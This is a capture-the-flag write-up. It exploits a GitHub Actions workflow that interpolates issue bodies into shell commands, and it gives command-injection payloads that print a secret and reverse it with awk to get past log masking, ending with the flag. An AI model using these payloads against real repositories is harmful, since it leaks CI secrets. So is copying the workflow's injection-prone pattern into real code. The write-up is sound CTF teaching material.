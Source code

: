 # Comments (500 points) - Github

You must solve the first challenge to get the answer, all you need is inside the Loby.

![Alt text](images/image.png)

This problem is common in github CTF, hacking the repository with environment variables from github workflows/actions, to uncover the secrets environment variables.

Viewing the workflow yaml file we can see the following:

```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

So we can see that the flag is in the secrets environment variable, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with `db_pass` variable.

I see a delicious vuln in the workflow, the `github.event.issue.body` parses the body of the issue, so we can write a payload for command injection in the body of the issue to read the secrets variable.

```bash
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
echo "::set-output name=teacher::$TEACHER"
echo "::set-output name=review::$REVIEW"
```

We can write the following payload:

```bash
'); echo $db_pass; # Review: '
```
Will be executed as:

```bash
TEACHER=$(echo ''); echo $db_pass; # Review: '
```

![Alt text](images/image3.png)

This first test will give us a glimpse of mask `***` LMAO since the secrets variable is protected. To unmask the flag we need to reverse the string with basic `awk` for strings manipulations.

```bash
'); echo "$db_pass" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }'; # Review: '
```

![Alt text](images/image1.png)

**FLAG:** EKO{m0ve_y0uR_b0dy}
